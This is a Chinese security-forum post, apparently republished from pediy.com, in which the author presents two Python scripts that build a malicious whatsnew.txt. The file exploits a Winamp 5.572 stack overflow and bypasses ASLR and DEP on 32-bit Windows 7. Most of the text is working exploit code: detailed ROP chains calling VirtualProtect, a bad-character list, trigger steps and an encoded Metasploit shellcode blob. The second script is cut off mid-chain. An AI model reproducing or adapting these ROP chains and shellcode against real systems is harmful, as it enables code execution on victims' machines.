



# Winamp Overflow Exploit (Win7 ASLR and DEP Bypass)

> 原文：[`www.pediy.com/kssd/pediy12/131440.html`](https://www.pediy.com/kssd/pediy12/131440.html)

之前在 exploit-db 上看到关于 winamp 的溢出 exploit：http://www.exploit-db.com/exploits/14068/，可绕过 win7 下的 aslr 和 dep 保护，不过其只能在 64 位 win7 上成功，而我的系统刚好是 32 位的，因此就自己动手写了一个。由于 win7 上的 ASLR 的保护，VirtualProtect 函数的地址是非固定，因此必须动态地定位 VP 函数地址，最初我是借助 COMODO 主动防御软件上的 guard32.dll 中的指令来定位 VP 函数的，但在测试时必须关闭 comodo，否则会报缓冲区溢出（comodo 还是比较给力的！）。由于这种方法需要安装 comodo 才会成功，因此后面我又使用原 exploit 中的方法，在栈中寻找到指向 kernel32 的指针，再偏移找到 VP 函数，相对前一种会更稳定更通用些。不过，上面这两种方法在调试状态每次都可成功，而直接运行软件测试的时候，有时会不成功，此时你得多测试几次才行！下面将两份代码帖上，供大家交流探讨。  
  
第一种方法：  
#!/usr/bin/python  
#Exploit Title: Winamp v5.572 Overflow Exploit (Win7 ASLR and DEP Bypass)  
#Date:             2011/3/24  
#Author:        riusksk  
#Software Link:    http://download.nullsoft.com/winamp/client/winamp5572\_full\_emusic-7plus\_en-us.exe  
#Tested on:     Windows 7 x32 QiJian CN  
#Badchars:         '\\x00\\xff\\x5c\\x2f\\x0a\\x0d\\x20'  
#Notes:         1.Replace the original whatsnew.txt with the generated file in Winamp install dir,  
#                  2.Start up Winamp, click "Help" \=\> "About Winamp..." \=\> "version history".  
print "\[+\] Winamp\_5.572 Overflow Exploit(Win7 ASLR and DEP Bypass) - by riusksk"  
print "\[+\] Building file......"  
version \= "Winamp 5.572"  
rop \= "A"\*540                  #Offset  
rop +\= "\\x1c\\x10\\x09\\x07"     #0x0709101c :  # RETN  
rop +\= "A"\*16  
#\-\-\-\-\-\-\-\-\-put stack pointer in edi & eax \-\-\-\-\-\-\-\-\-\-\-\-\-  
rop +\= "\\xf4\\xa8\\x3e\\x07"     #0x073EA8F4 :  # PUSH ESP # POP EDI # POP ESI # POP EBX # RETN 8     \[Module : gen\_ff.dll\]  
rop +\= "A"\*8  
rop +\= "\\x86\\xe8\\x40\\x07"     #0x0740E886 :  # MOV EAX,EDI # POP ESI # RETN     \[Module : gen\_ff.dll\]  \*\*   
rop +\= "A"\*12  
#\-\-\-\-\-\-\-\-\-\-jmp over params\-\-\-\-\-\-\-\-\-\-\-\-  
rop +\= "\\x20\\x50\\xa6\\x07"     #0x07A65020 :  # ADD ESP,18 # RETN 10     \[Module : ml\_rg.dll\]  \*\*   
#\-\-\-\-\-\-\-\-\-\-\-\-\-locate VirtualProtect() addr\-\-\-\-\-\-\-\-\-\-\-\-  
# use guard32.dll in COMODO Internet Security to get the pointer where point to VirtualProtect  
#1002CA33  \-FF25 E8F30310    JMP DWORD PTR DS:\[1003F3E8\]    \[Module : guard32.dll\]  
# jmp to here  
#6FFF04C0   8BFF             MOV EDI,EDI  
#6FFF04C2   55               PUSH EBP  
#6FFF04C3   8BEC             MOV EBP,ESP  
#6FFF04C5  \-E9 E64BFF06      JMP kernel32.76FE50B0  
# jmp to here  
#76FE50B0   5D               POP EBP  
#76FE50B1  ^E9 02D0FBFF      JMP   
# jmp to here  
#76FA20B8  \-FF25 1019FA76    JMP DWORD PTR DS:\[; KERNELBA.VirtualProtect  
rop +\= "\\x33\\xca\\x02\\x10"     #0x1002CA33         \[Module : guard32.dll\]  
#\-\-\-\-\-\-\-\-\-set VP param\-\-\-\-\-\-\-\-\-  
rop +\= "WWWW" #return address   
rop +\= "XXXX" #lpAddress placeholder  
rop +\= "YYYY" #dwsize placeholder  
rop +\= "ZZZZ" #flNewProtect placeholder  
rop +\= "\\xa0\\x29\\x0f\\x07"     # lpflOldProtect (0x070f29a0 is a writable address in nde.dll)   
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-Set Param1\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# make esi points to the param1 (return addr)  
rop +\= "\\x68\\x4a\\xb7\\x07"     #0x07B74A68 :  # PUSH EDI # POP ESI # RETN 4     \[Module : pmp\_ipod.dll\]  \*\*    
rop +\= "A"\*16  
# make eax points to nops/shellcode  
rop +\= "\\x20\\x2c\\x75\\x07"     #0x07752C20 :  # ADD EAX,240 # RETN     \[Module : in\_mp3.dll\]  \*\*   
rop +\= "A"\*4  
# param1 \= EAX   
rop +\= "\\x32\\x9d\\x68\\x07"     #0x07689D32 :  # MOV DWORD PTR DS:\[ESI+20\],EAX # POP ESI # RETN     \[Module : in\_dshow.dll\]  \*\*   
rop +\= "A"\*4  
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-Set Param2\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# make esi points to the param2(lpAddress)  
rop +\= "\\x68\\x4a\\xb7\\x07"     #0x07B74A68 :  # PUSH EDI # POP ESI # RETN 4     \[Module : pmp\_ipod.dll\]  \*\*    
# increase ESI with 5  
rop +\= "\\x82\\x55\\x40\\x07"\*5    #0x07405582 :  # INC ESI # RETN     \[Module : gen\_ff.dll\]  \*\*   
# wirte eax to param2  
rop +\= "\\x32\\x9d\\x68\\x07"     #0x07689D32 :  # MOV DWORD PTR DS:\[ESI+20\],EAX # POP ESI # RETN     \[Module : in\_dshow.dll\]  \*\*   
rop +\= "A"\*4  
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-Set Param3\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# make esi points to the param3(dwSize)  
rop +\= "\\x68\\x4a\\xb7\\x07"     #0x07B74A68 :  # PUSH EDI # POP ESI # RETN 4     \[Module : pmp\_ipod.dll\]  \*\*    
rop +\= "\\x82\\x55\\x40\\x07"\*9    #0x07405582 :  # INC ESI # RETN     \[Module : gen\_ff.dll\]  \*\*   
# set eax \= 0x30C  
rop +\= "\\x1a\\x10\\x09\\x07"     #0x0709101A :  # XOR EAX,EAX # RETN      \[Module : libsndfile.dll\]  
rop +\= "\\x45\\x35\\x10\\x08"     #0x08103545 :  # ADD EAX,104 # POP EBP # RETN    \[Module : freetype.wac\]  
rop +\="AAAA"  
rop +\= "\\x45\\x35\\x10\\x08"     #0x08103545 :  # ADD EAX,104 # POP EBP # RETN    \[Module : freetype.wac\]  
rop +\="AAAA"  
rop +\= "\\x45\\x35\\x10\\x08"     #0x08103545 :  # ADD EAX,104 # POP EBP # RETN    \[Module : freetype.wac\]  
rop +\="AAAA"  
# wirte eax to param3  
rop +\= "\\x32\\x9d\\x68\\x07"     #0x07689D32 :  # MOV DWORD PTR DS:\[ESI+20\],EAX # POP ESI # RETN     \[Module : in\_dshow.dll\]  \*\*   
rop +\= "A"\*4  
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-Set Param4\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# make esi points to the param4(flNewProtect)  
rop +\= "\\x68\\x4a\\xb7\\x07"     #0x07B74A68 :  # PUSH EDI # POP ESI # RETN 4     \[Module : pmp\_ipod.dll\]  \*\*    
rop +\= "\\x82\\x55\\x40\\x07"\*13    #0x07405582 :  # INC ESI # RETN     \[Module : gen\_ff.dll\]  \*\*   
# set eax \= 0x40  
rop +\= "\\x1a\\x10\\x09\\x07"     #0x0709101A :  # XOR EAX,EAX # RETN      \[Module : libsndfile.dll\]  
rop +\= "\\x3a\\xd8\\x8d\\x07"     #0x078DD83A :  # ADD EAX,41 # RETN       \[Module : ml\_disc.dll\]  
rop +\= "\\xec\\x11\\x09\\x07"     #0x070911EC :  # DEC EAX # RETN  \[Module : libsndfile.dll\]  
# wirte eax to param3  
rop +\= "\\x32\\x9d\\x68\\x07"     #0x07689D32 :  # MOV DWORD PTR DS:\[ESI+20\],EAX # POP ESI # RETN     \[Module : in\_dshow.dll\]  \*\*   
rop +\= "A"\*4  
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-call VirtualProtect()\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# make edi points to callVP  
rop +\= "\\x40\\x4e\\x95\\x07"\*28    #0x07954E40 :  # INC EDI # RETN     \[Module : ml\_local.dll\]  \*\*   
rop +\= "\\x86\\xe8\\x40\\x07"    #0x0740E886 :  # MOV EAX,EDI # POP ESI # RETN     \[Module : gen\_ff.dll\]  \*\*  
rop +\= "A"\*4   
rop +\= "\\xca\\x6d\\x5c\\x07"    #0x075C6DCA :  # XCHG EAX,ESP # RETN     \[Module : gen\_ml.dll\]  \*\*   
nops \= "\\x90"\*500  
# msfpayload windows/exec CMD\=calc.exe R | msfencode \-b '\\x00\\xff\\x5c\\x2f\\x0a\\x0d\\x20' \-t perl  
# 312 bytes shellcode  
shellcode \= ("\\xbb\\xd2\\xaa\\xfa\\x33\\x31\\xc9\\xb1\\x33\\xdb\\xd3\\xd9\\x74\\x24" +  
"\\xf4\\x5e\\x83\\xc6\\x04\\x31\\x5e\\x0b\\x03\\x5e\\xd9\\x48\\x0f\\xcf" +  
"\\x35\\x05\\xf0\\x30\\xc5\\x76\\x78\\xd5\\xf4\\xa4\\x1e\\x9d\\xa4\\x78" +  
"\\x54\\xf3\\x44\\xf2\\x38\\xe0\\xdf\\x76\\x95\\x07\\x68\\x3c\\xc3\\x26" +  
"\\x69\\xf0\\xcb\\xe5\\xa9\\x92\\xb7\\xf7\\xfd\\x74\\x89\\x37\\xf0\\x75" +  
"\\xce\\x2a\\xfa\\x24\\x87\\x21\\xa8\\xd8\\xac\\x74\\x70\\xd8\\x62\\xf3" +  
"\\xc8\\xa2\\x07\\xc4\\xbc\\x18\\x09\\x15\\x6c\\x16\\x41\\x8d\\x07\\x70" +  
"\\x72\\xac\\xc4\\x62\\x4e\\xe7\\x61\\x50\\x24\\xf6\\xa3\\xa8\\xc5\\xc8" +  
"\\x8b\\x67\\xf8\\xe4\\x06\\x79\\x3c\\xc2\\xf8\\x0c\\x36\\x30\\x85\\x16" +  
"\\x8d\\x4a\\x51\\x92\\x10\\xec\\x12\\x04\\xf1\\x0c\\xf7\\xd3\\x72\\x02" +  
"\\xbc\\x90\\xdd\\x07\\x43\\x74\\x56\\x33\\xc8\\x7b\\xb9\\xb5\\x8a\\x5f" +  
"\\x1d\\x9d\\x49\\xc1\\x04\\x7b\\x3c\\xfe\\x57\\x23\\xe1\\x5a\\x13\\xc6" +  
"\\xf6\\xdd\\x7e\\x8d\\x09\\x6f\\x05\\xe8\\x09\\x6f\\x06\\x5b\\x61\\x5e" +  
"\\x8d\\x34\\xf6\\x5f\\x44\\x71\\x08\\x2a\\xc5\\xd0\\x80\\xf3\\x9f\\x60" +  
"\\xcd\\x03\\x4a\\xa6\\xeb\\x87\\x7f\\x57\\x08\\x97\\xf5\\x52\\x55\\x1f" +  
"\\xe5\\x2e\\xc6\\xca\\x09\\x9c\\xe7\\xde\\x69\\x43\\x7b\\x82\\x43\\xe6" +  
"\\xfb\\x21\\x9c\\xe2")  
expfile \= open('whatsnew.txt','w')  
expfile.write(version + rop + nops + shellcode)  
print "\[+\] whatsnew.txt generated."  
expfile.close()  
  
测试结果，注意比较启动前后的时间：  
重启前：  
  
  
重启后：  
  
  
第二种方法：  
  
#!/usr/bin/python  
#Exploit Title: Winamp v5.572 Overflow Exploit (Win7 ASLR and DEP Bypass)  
#Date:             2011/3/24  
#Author:        riusksk  
#Software Link:    http://download.nullsoft.com/winamp/client/winamp5572\_full\_emusic-7plus\_en-us.exe  
#Tested on:     Windows 7 x32 QiJian CN  
#Badchars:         '\\x00\\xff\\x5c\\x2f\\x0a\\x0d\\x20'  
#Notes:         1.Replace the original whatsnew.txt with the generated file in Winamp install dir,  
#                  2.Start up Winamp, click "Help" \=\> "About Winamp..." \=\> "version history".  
print "\[+\] Winamp\_5.572 Overflow Exploit(Win7 ASLR and DEP Bypass) - by riusksk"  
print "\[+\] Building file......"  
version \= "Winamp 5.572"  
rop \= "A"\*540                  #Offset  
rop +\= "\\x1c\\x10\\x09\\x07"     #0x0709101c :  # RETN  
rop +\= "A"\*16  
#\-\-\-\-\-\-\-\-\-put stack pointer in edi & eax \-\-\-\-\-\-\-\-\-\-\-\-\-  
rop +\= "\\xf4\\xa8\\x3e\\x07"     #0x073EA8F4 :  # PUSH ESP # POP EDI # POP ESI # POP EBX # RETN 8     \[Module : gen\_ff.dll\]  
rop +\= "A"\*8  
rop +\= "\\x86\\xe8\\x40\\x07"     #0x0740E886 :  # MOV EAX,EDI # POP ESI # RETN     \[Module : gen\_ff.dll\]  \*\*   
rop +\= "A"\*12  
#\-\-\-\-\-\-\-\-\-\-jmp over params\-\-\-\-\-\-\-\-\-\-\-\-  
rop +\= "\\x20\\x50\\xa6\\x07"     #0x07A65020 :  # ADD ESP,18 # RETN 10     \[Module : ml\_rg.dll\]  \*\*   
#\-\-\-\-\-\-\-\-\-set VP param\-\-\-\-\-\-\-\-\-  
rop +\= "VPVP" #VirtualProtect()  
rop +\= "WWWW" #return address   
rop +\= "XXXX" #lpAddress placeholder  
rop +\= "YYYY" #dwsize placeholder  
rop +\= "ZZZZ" #flNewProtect placeholder  
rop +\= "\\xa0\\x29\\x0f\\x07"     # lpflOldProtect (0x070f29a0 is a writable address in nde.dll)   
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-Grab a kernel32 pointer from the stack\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# kernel32 pointer \= stack pointer(rop entry) \- 0x3B0  
rop +\= "\\x74\\x6c\\x96\\x07"     #0x07966C74 :  # XCHG EAX,EDX # RETN     \[Module : ml\_local.dll\]  
rop +\= "A"\*16  
rop +\= "\\x20\\x2c\\x75\\x07"     #0x07752C20 :  # ADD EAX,240 # RETN     \[Module : in\_mp3.dll\]  \*\*   
rop +\= "\\x45\\x35\\x10\\x08"    #0x08103545 :  # ADD EAX,104 # POP EBP # RETN     \[Module : freetype.wac\]  \*\*   
rop +\= "A"\*4  
rop +\= "\\x8c\\x8f\\x10\\x08"    #0x08108F8C :  # ADD EAX,6C # RETN     \[Module : freetype.wac\]  \*\*  
rop +\= "\\xe5\\x1f\\x36\\x08"    #0x08361FE5 :  # SUB EAX,30 # RETN     \[Module : jnetlib.w5s\]  \*\*   
rop +\= "\\x74\\x6c\\x96\\x07"     #0x07966C74 :  # XCHG EAX,EDX # RETN     \[Module : ml\_local.dll\]  
rop +\= "\\xb3\\x6a\\x6c\\x07"     #0x076C6AB3 :  # SUB EAX,EDX # RETN      \[Module : in\_flv.dll\]  
rop +\= "\\xa7\\x41\\x11\\x07"     #0x071141A7 :  # MOV EAX,DWORD PTR DS:\[EAX\] # RETN       \[Module : tataki.dll\]  
# eax \= kernel32 pointer  
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-Change kernel32 pointer to VirtualProtect()\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# VirtualProtect addr \= kernel32 pointer + 0xA33F  
rop +\= "\\x74\\x6c\\x96\\x07"     #0x07966C74 :  # XCHG EAX,EDX # RETN     \[Module : ml\_local.dll\]  eax\=0x3B0  
rop +\= "\\x45\\x35\\x10\\x08"     #0x08103545 :  # ADD EAX,104 # POP EBP # RETN    \[Module : freetype.wac\]    eax\=0x4B4  
rop +\="AAAA"  
rop +\= "\\x67\\x40\\x5b\\x07"     #0x075B4067 :  # MOV ECX,EAX # MOV EAX,ECX # RETN        \[Module : gen\_ml.dll\]  
rop +\= "\\xfd\\x6b\\x71\\x07"     #0x07716BFD :  # ADD EAX,ECX # RETN     \[Module : in\_mkv.dll\]  \*\*  eax\=0x968  
rop +\= "\\x67\\x40\\x5b\\x07"     #0x075B4067 :  # MOV ECX,EAX # MOV EAX,ECX # RETN        \[Module : gen\_ml.dll\]  
rop +\= "\\xfd\\x6b\\x71\\x07"     #0x07716BFD :  # ADD EAX,ECX # RETN     \[Module : in\_mkv.dll\]  \*\* eax\=0x12d0  
rop +\= "\\x67\\x40\\x5b\\x07"     #0x075B4067 :  # MOV ECX,EAX # MOV EAX,ECX # RETN        \[Module : gen\_ml.dll\]  
rop +\= "\\xfd\\x6b\\x71\\x07"     #0x07716BFD :  # ADD EAX,ECX # RETN     \[Module : in\_mkv.dll\]  \*\* eax\=0x25a0  
rop +\= "\\x67\\x40\\x5b\\x07"     #0x075B4067 :  # MOV ECX,EAX # MOV EAX,ECX # RETN        \[Module : gen\_ml.dll\]  
rop +\= "\\xfd\\x6b\\x71\\x07"     #0x07716BFD :  # ADD EAX,ECX # RETN     \[Module : in\_mkv.dll\]  \*\* eax\=0x4b40  
rop +\= "\\x67\\x40\\x5b\\x07"     #0x075B4067 :  # MOV ECX,EAX # MOV EAX,ECX # RETN        \[Module : gen\_ml.dll\]  
rop +\= "\\xfd\\x6b\\x71\\x07"     #0x07716BFD :  # ADD EAX,ECX # RETN     \[Module : in\_mkv.dll\]  \*\* eax\=0x9680  
rop +\= "\\x20\\x2c\\x75\\x07"\*4     #0x07752C20 :  # ADD EAX,240 # RETN     \[Module : in\_mp3.dll\]  \*\* eax\=0x9f80  
rop +\= "\\x45\\x35\\x10\\x08"     #0x08103545 :  # ADD EAX,104 # POP EBP # RETN    \[Module : freetype.wac\]    eax\=0xa084  
rop +\="AAAA"  
rop +\= "\\x45\\x35\\x10\\x08"     #0x08103545 :  # ADD EAX,104 # POP EBP # RETN    \[Module : freetype.wac\]    eax\=0xa188  
rop +\="AAAA"  
rop +\= "\\x45\\x35\\x10\\x08"     #0x08103545 :  # ADD EAX,104 # POP EBP # RETN    \[Module : freetype.wac\]    eax\=0xa28c  
rop +\="AAAA"  
rop +\= "\\x45\\x35\\x10\\x08"     #0x08103545 :  # ADD EAX,104 # POP EBP # RETN    \[Module : freetype.wac\]    eax\=0xa390  
rop +\="AAAA"  
rop +\= "\\xca\\x74\\x33\\x08"    #0x083374CA :  # ADD EAX,10 # RETN     \[Module : jnetlib.w5s\]  \*\* eax\=0xA3A0  
rop +\= "\\x08\\x13\\x8d\\x07"     #0x078D1308 :  # SUB EAX,41 # RETN       \[Module : ml\_disc.dll\] eax\=0xA35F  
rop +\= "\\xc6\\xd7\\x8d\\x07"     #0x078DD7C6 :  # SUB EAX,20 # RETN       \[Module : ml\_disc.dll\] eax\=0xa33f  
rop +\= "\\x74\\x6c\\x96\\x07"     #0x07966C74 :  # XCHG EAX,EDX # RETN     \[Module : ml\_local.dll\]  
rop +\= "\\x10\\x7d\\x0b\\x07"     #0x070B7D10 :  # ADD EAX,EDX # RETN      \[Module : libsndfile.dll\]  
# eax \= VirtualProtect  
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-Write VirtualProtect addr to stack\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# make esi points to "VPVP"  
rop +\= "\\x68\\x4a\\xb7\\x07"     #0x07B74A68 :  # PUSH EDI # POP ESI # RETN 4     \[Module : pmp\_ipod.dll\]  \*\*    
rop +\= "\\xdb\\xd6\\x10\\x08"\*5    #0x0810D6DB :  # DEC ESI # RETN     \[Module : freetype.wac\]  \*\*   
rop +\= "\\x32\\x9d\\x68\\x07"     #0x07689D32 :  # MOV DWORD PTR DS:\[ESI+20\],EAX # POP ESI # RETN     \[Module : in\_dshow.dll\]  \*\*   
rop +\= "A"\*4  
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-Set Param1\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# make esi points to the param1 (return addr)  
rop +\= "\\x68\\x4a\\xb7\\x07"     #0x07B74A68 :  # PUSH EDI # POP ESI # RETN 4     \[Module : pmp\_ipod.dll\]  \*\*    
# make eax points to nops/shellcode  
rop +\= "\\xc0\\x3c\\x32\\x08"    #0x08323CC0 :  # MOV EAX,EDI # RETN     \[Module : jnetlib.w5s\]  \*\*  
rop +\= "A"\*4  
rop +\= "\\x20\\x2c\\x75\\x07"     #0x07752C20 :  # ADD EAX,240 # RETN     \[Module : in\_mp3.dll\]  \*\*   
rop +\= "\\x8c\\x8f\\x10\\x08"     #0x08108F8C :  # ADD EAX,6C # RETN     \[Module : freetype.wac\]  \*\*  
# param1 \= EAX   
rop +\= "\\x32\\x9d\\x68\\x07"     #0x07689D32 :  # MOV DWORD PTR DS:\[ESI+20\],EAX # POP ESI # RETN     \[Module : in\_dshow.dll\]  \*\*   
rop +\= "A"\*4  
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-Set Param2\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# make esi points to the param2(lpAddress)  
rop +\= "\\x68\\x4a\\xb7\\x07"     #0x07B74A68 :  # PUSH EDI # POP ESI # RETN 4     \[Module : pmp\_ipod.dll\]  \*\*    
# increase ESI with 5  
rop +\= "\\x82\\x55\\x40\\x07"\*5    #0x07405582 :  # INC ESI # RETN     \[Module : gen\_ff.dll\]  \*\*   
# wirte eax to param2  
rop +\= "\\x32\\x9d\\x68\\x07"     #0x07689D32 :  # MOV DWORD PTR DS:\[ESI+20\],EAX # POP ESI # RETN     \[Module : in\_dshow.dll\]  \*\*   
rop +\= "A"\*4  
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-Set Param3\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# make esi points to the param3(dwSize)  
rop +\= "\\x68\\x4a\\xb7\\x07"     #0x07B74A68 :  # PUSH EDI # POP ESI # RETN 4     \[Module : pmp\_ipod.dll\]  \*\*    
rop +\= "\\x82\\x55\\x40\\x07"\*9    #0x07405582 :  # INC ESI # RETN     \[Module : gen\_ff.dll\]  \*\*   
# set eax \= 0x30C  
rop +\= "\\x1a\\x10\\x09\\x07"     #0x0709101A :  # XOR EAX,EAX # RETN      \[Module : libsndfile.dll\]  
rop +\= "\\x45\\x35\\x10\\x08"     #0x08103545 :  # ADD EAX,104 # POP EBP # RETN    \[Module : freetype.wac\]  
rop +\="AAAA"  
rop +\= "\\x45\\x35\\x10\\x08"     #0x08103545 :  # ADD EAX,104 # POP EBP # RETN    \[Module : freetype.wac\]  
rop +\="AAAA"  
rop +\= "\\x45\\x35\\x10\\x08"     #0x08103545 :  # ADD EAX,104 # POP EBP # RETN    \[Module : freetype.wac\]  
rop +\="AAAA"  
# wirte eax to param3  
rop +\= "\\x32\\x9d\\x68\\x07"     #0x07689D32 :  # MOV DWORD PTR DS:\[ESI+20\],EAX # POP ESI # RETN     \[Module : in\_dshow.dll\]  \*\*   
rop +\= "A"\*4  
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-Set Param4\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# make esi points to the param4(flNewProtect)  
rop +\= "\\x68\\x4a\\xb7\\x07"     #0x07B74A68 :  # PUSH EDI # POP ESI # RETN 4     \[Module : pmp\_ipod.dll\]  \*\*    
rop +\= "\\x82\\x55\\x40\\x07"\*13    #0x07405582 :  # INC ESI # RETN     \[Module : gen\_ff.dll\]  \*\*   
# set eax \= 0x40  
rop +\= "\\x1a\\x10\\x09\\x07"     #0x0709101A :  # XOR EAX,EAX # RETN      \[Module : libsndfile.dll\]  
rop +\= "\\x3a\\xd8\\x8d\\x07"     #0x078DD83A :  # ADD EAX,41 # RETN       \[Module : ml\_disc.dll\]  
rop +\= "\\xec\\x11\\x09\\x07"     #0x070911EC :  # DEC EAX # RETN  \[Module : libsndfile.dll\]  
# wirte eax to param3  
rop +\= "\\x32\\x9d\\x68\\x07"     #0x07689D32 :  # MOV DWORD PTR DS:\[ESI+20\],EAX # POP ESI # RETN     \[Module : in\_dshow.dll\]  \*\*   
rop +\= "A"\*4  
#\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-call VirtualProtect()\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-  
# make edi points to callVP  
rop +\= "\\x40\\x4e\\x95\\x07"\*28    #0x07954E40 :  # INC EDI # RETN     \[Module : ml\_local.dll\]  \*\*   
rop +\= "\\x86\\xe8\\x40\\x07"    #0x0740E886 :  # MOV EAX,EDI # POP ESI # RETN     \[Module : gen\_ff.dll\]  \*\*  
rop +\= "A"\*4   
